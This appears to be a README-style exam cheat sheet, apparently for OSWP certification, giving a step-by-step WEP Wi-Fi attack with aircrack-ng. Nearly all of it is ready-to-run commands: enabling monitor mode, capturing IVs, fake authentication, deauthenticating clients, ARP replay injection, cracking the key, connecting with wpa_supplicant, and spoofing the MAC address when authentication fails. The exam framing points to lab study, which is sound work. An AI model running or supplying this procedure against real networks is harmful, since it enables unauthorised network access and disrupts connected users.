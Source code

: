
# 🛡️ WEP Attack – SSH-only, exam-style flow

## ⚙️ 0. Initial Setup

📌 Get your interface MAC (before monitor mode) via:

```bash
cat /sys/class/net/wlan0/address
```
or
```bash
ip link show wlan0
```

then let's go!

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

Enables monitor mode on `wlan0mon`.

---

## 🔍 1. Network Scanning

```bash
sudo airodump-ng wlan0mon
```

Identify:
- `BSSID`
- `Channel`
- `Associated Clients` (STATION)

---

## 🎯 2. Targeted Sniffing

```bash
sudo airodump-ng --bssid <BSSID> -c <CH> -w dump wlan0mon
```

Collects IVs for cracking.

---

## 🔐 2. At the same time: Fake Auth (mandatory before injection)

```bash
sudo aireplay-ng -1 3600 -q 10 -a <BSSID> wlan0mon
```

Collects IVs for cracking.

---

## 💣 3. (Optional) Deauth Attack

```bash
sudo aireplay-ng --deauth 5 -a <BSSID> wlan0mon
```

Forces a client to reconnect and trigger ARP traffic.

---

## 🚀 4. At the same time: ARP Replay Attack


```bash
sudo aireplay-ng --arpreplay -b <BSSID> -h <YOUR_MAC> wlan0mon
```

Injects ARP requests to increase `#Data`.
`-h` needs **your** MAC not a random one. We are pretending to be a legitimate client.

---

## 🔓 5. At the same time: Crack the WEP Key

When you see 20.000–30.000 IV in the `#Data` column you need to:


```bash
aircrack-ng dump-01.cap
```

Expected result:

```
KEY FOUND! [ 12:34:56:78:90 ]
```
---

## 🔌 6. Connect Using wpa_supplicant

### wep.conf

```ini
network={
    ssid="wifi-old"
    key_mgmt=NONE
    wep_key0="1234567890"
    wep_tx_keyidx=0
}
```

### Launch

```bash
sudo airmon-ng stop wlan0mon
sudo wpa_supplicant -i wlan0 -c wep.conf -D nl80211
sudo dhclient wlan0
```

---

## ✅ 7. Verify Connection

```bash
ip a
ping 192.168.1.1
```

---

## 🧠 Extra: 
### IP vs Gateway Explanation

- **192.168.1.48** is your local IP, assigned via DHCP by the router.
- **192.168.1.1** is usually the **gateway/router**, your exit to the rest of the network or internet.
- Pinging `192.168.1.1` checks if you're actually connected to the router.
- Pinging `192.168.1.48` means you're pinging yourself — useful only for internal stack checks.

### Fake auth differences

❓ Are these two commands the same?

```bash
sudo aireplay-ng --fakeauth 0 -a <BSSID> -h <YOUR_MAC> wlan0mon
```

vs

```bash
sudo aireplay-ng -1 3600 -q 10 -a <BSSID> wlan0mon
```

No! they are not! they are similar but not the same. And here is why: 
📌 Command 1 – One-Time Fake Auth

```bash
sudo aireplay-ng --fakeauth 0 -a <BSSID> -h <YOUR_MAC> wlan0mon
```

- Performs a **single fake authentication attempt** with 0ms timeout.
- Registers your MAC with the target AP so it accepts injected packets.
- Output when successful:

  ```
  Authentication successful
  ```

✅ Use this for **quick testing** or **simple APs**.  
🚫 If the AP drops your session (timeout, range issues), injection will fail.

---

## 📌 Command 2 – Persistent Re-Auth

```bash
sudo aireplay-ng -1 3600 -q 10 -a <BSSID> wlan0mon
```

- `-1 3600`: re-authenticate every **3600 seconds** (1 hour).
- `-q 10`: show status every **10 seconds**.
- More stable for long-running injection or strict APs.

✅ Recommended for **OSWP labs**, **unstable links**, or **demanding routers**.

---

## 🧠 TL;DR Summary

| Command | Type | When to Use |
|--------|------|-------------|
| `--fakeauth 0` | Single shot | Quick tests, permissive routers |
| `-1 3600 -q 10` | Persistent | Long sessions, lab setup, unstable auth |

---

## 💡 Pro Tip

- Use **persistent fake auth** before launching `--arpreplay`.
- If fakeauth fails:
  - Try a different MAC with `macchanger`
  - Move closer to the AP
  - Add delay: `--fakeauth 60000`

---

Chapter closed. WEP is toast. Ready for WPA2? 😎
